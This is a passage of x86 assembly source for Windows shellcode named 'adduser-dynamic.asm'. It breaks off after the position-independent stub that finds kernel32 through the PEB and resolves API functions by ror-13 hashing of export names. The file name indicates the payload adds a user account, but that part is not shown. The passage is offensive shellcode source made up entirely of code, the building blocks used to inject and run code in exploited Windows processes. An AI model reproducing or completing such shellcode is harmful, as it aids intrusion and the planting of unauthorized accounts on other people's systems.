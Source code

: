 ```
+--------------- Start adduser-dynamic.asm --------------+
;adduser-dynamic.asm
[SECTION .text]
BITS 32
global _start
_start:
    jmp start_asm
;DEFINE FUNCTIONS
;FUNCTION: find_kernel32
find_kernel32:
    push esi
    xor eax, eax
    mov eax, [fs:eax+0x30]
    test eax, eax
    js find_kernel32_9x
find_kernel32_nt:
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov eax, [eax + 0x8]
    jmp find_kernel32_finished
find_kernel32_9x:
    mov eax, [eax + 0x34]
    lea eax, [eax + 0x7c]
    mov eax, [eax + 0x3c]
find_kernel32_finished:
    pop esi
    ret
;END FUNCTION: find_kernel32
;FUNCTION: find_function
find_function:
    pushad
    mov ebp, [esp + 0x24]
    mov eax, [ebp + 0x3c]
    mov edx, [ebp + eax + 0x78]
    add edx, ebp
    mov ecx, [edx + 0x18]
    mov ebx, [edx + 0x20]
    add ebx, ebp
find_function_loop:
    jecxz find_function_finished
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp ; esi now points to current function string
     ; start of compute hash function
compute_hash: ; put this into a function
    xor edi, edi ; edi will hold our hash result
    xor eax, eax ; eax holds our current char
    cld
compute_hash_again:
    lodsb ; puts current char into eax (except first time)
    test al, al ; checks for null - end of function string
    jz compute_hash_finished
    ror edi, 0xd ; rotate the current hash
    add edi, eax ; adds current char to current hash
    jmp compute_hash_again
compute_hash_finished: ; end of compute hash function
find_function_compare:
    ;this is where it compares the calculated hash to our hash
    cmp edi, [esp + 0x28]
    jnz find_function_loop
    mov ebx, [edx + 0x24]
    add ebx, ebp
```